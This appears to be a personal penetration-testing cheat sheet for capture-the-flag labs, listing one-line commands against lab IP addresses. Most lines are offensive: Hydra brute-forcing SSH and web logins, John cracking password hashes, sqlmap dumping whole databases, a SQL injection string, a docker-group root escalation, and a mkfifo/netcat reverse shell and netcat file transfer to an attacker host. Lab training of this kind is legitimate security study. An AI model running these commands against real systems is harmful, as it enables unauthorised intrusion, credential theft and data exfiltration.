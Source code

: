 ### Nmap
`nmap -sC -sV 10.10.105.34`
`nmap --script vuln ip -vv`
### No ICMP
`nmap -Pn 10.10.105.34`

### Generates hash for /etc/passwd(user should already exist)
`openssl passwd -1`

### for /etc/shadow
`mkpasswd -m sha-512 password`
`snap run john-the-ripper --wordlist=~/rockyou.txt hash`

### John
`/snap/bin/john-the-ripper.gpg2john`
`./zip2john 8702.zip > hash`  
`ssh2john.py id_rsa`

### Awk
`awk 'length($0)==10' rockyou.txt`

### Stegography 
`steghide extract -sf`
`stegcracker cute-alien.jpg ~/rockyou.txt`

### Hydra
`hydra -l <username> -P <path to wordlist> <IP> ssh`
`hydra -l molly -P rockyou.txt 10.10.57.111 http-post-form "/login:username=molly&password=^PASS^:incorrect" -V`

### Reminder
`nikto`

### Wfuzz
`wfuzz -c -z file,dates.list -d "date=FUZZ" -u http://10.10.181.57/site-log.php --hc 404`

`sshpass -p !4u2tryhack ssh username@host.example.com`

### Words on web page
`cewl`  

### Sqlmap
`sqlmap -r req.txt -p blood_group -D blood --dump-all`
`sqlmap -r burp.txt --tamper=space2comment --dump-all --dbms sqlite`

### Stable rev shell
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.3.125 4444 >/tmp/f`

### Stabilize shell
`python3 -c "import pty;pty.spawn('/bin/bash')"`
`export TERM=xterm`
`//CTRL + Z to background`
`stty raw -echo;fg` 

### If docker in groups (may help may not)
`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

### Disclose subdomains(@dns-server)
`dig axfr hipflasks.thm @10.10.113.230`

### Mount samba share under username
`sudo mount -t cifs -o username=ubuntu //10.10.7.87/sambashare /media/samba`

### Simple SQLi
`' OR '1'='1' --`

### SQL list
https://github.com/payloadbox/sql-injection-payload-list.git

### NFS
`showmount --exports 10.10.41.139`
`mount 10.10.41.139:/opt/conf /media/nfs`

### Rsync
`rsync --list-only rsync://rsync-connect@10.10.41.139`

### GPG
`gpg --import key.asc`
`gpg --decrypt file.pgp`

### Samba
`smbclient -NL 10.10.215.0`
`smbclient -N //10.10.215.0/VulnNet-Enterprise-Anonymous`

### Netcat recv and send
`nc -q 1 -l -p 7777 > runme`
`nc -q 1 10.9.3.125 7777 < /home/catlover/runme`

### Openssl & GPG
`openssl aes-256-cbc -pbkdf2 -iter 10000 -e -in message.txt -out encrypted_message`
`openssl aes-256-cbc -pbkdf2 -iter 10000 -d -in encrypted_message -out original_message.txt`

`gpg --symmetric --cipher-algo CIPHER message.txt`
`gpg --output original_message.txt --decrypt message.gpg`

### Subdomains search (i.e. *(www|admin).site.com)
ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://FUZZ.site.com -fw 1
